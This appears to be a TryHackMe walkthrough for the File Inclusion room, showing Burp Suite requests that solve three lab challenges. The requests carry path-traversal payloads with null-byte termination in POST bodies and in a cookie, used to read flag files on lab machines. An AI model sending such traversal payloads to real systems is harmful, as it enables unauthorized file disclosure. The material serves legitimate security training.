 # My goal is to provide methods to complete the File Inclusion room on TryHackMe using only Burpsuite and not curL as other walkthroughs do. This does assume a basic understanding of Burpsutie
# Challenge 1
For challenge one we can test out entering /etc/flag1 into the form and then view the web request in burp suite after intercepting it, the web request looks like
```
GET /challenges/chall1.php?file=%2Fetc%2Fflag HTTP/1.1
Host: [IP]
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.152.198/challenges/chall1.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
So the thign we need to do is change the http method being used to post as the challenge tells us such that <br>
```POST /challenges/chall1.php HTTP/1.1```
Curl would use the -d to add information to the request body and to do this in burpsuite we need to add headers to the original request. Specifically the Content Type and when the data is addedd the  Content-Length field should be automatically filled by Burpsuite
<br> 
<br>
Lastly we must add the null byte in order to get to the php file on the server
```
POST /challenges/chall1.php HTTP/1.1
Host: [IP]
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 45

file=../../../../../../etc/flag1%00
```
# Challenge 2
This challenge is about dealing with the cookie the page has. If we refresh the page as it prompts us to do we see in the web request
```
GET /challenges/chall2.php HTTP/1.1
Host: [IP]
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: THM=Guest
Connection: close
```
All we need to do for this challenge is edit the THM cookie to
```
Cookie: THM=../../../../../etc/flag2%00
Connection: close
```
and we are given the flag
# Challenge 3
To start this challenge we will submit /etc/flag3 and see what happens and check the response, in there things to note
```
File Content Preview of <b>
    etcflag
```
So the data being entered through the bar is being filtered, the slashes and the number to read the flag so even if we tried a dot-dot-slash attack it will still not be able to work.
<br>
<br>
Similarly to challenge one we will change the http method to POST add Content-Type header and submit the request body as before along with the null byte
```
POST /challenges////chall3.php HTTP/1.1
Host: [IP]
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 54
Content-Type: application/x-www-form-urlencoded

file=../../../../etc/flag3%00
```
Sending this request we can view the final challenge flag
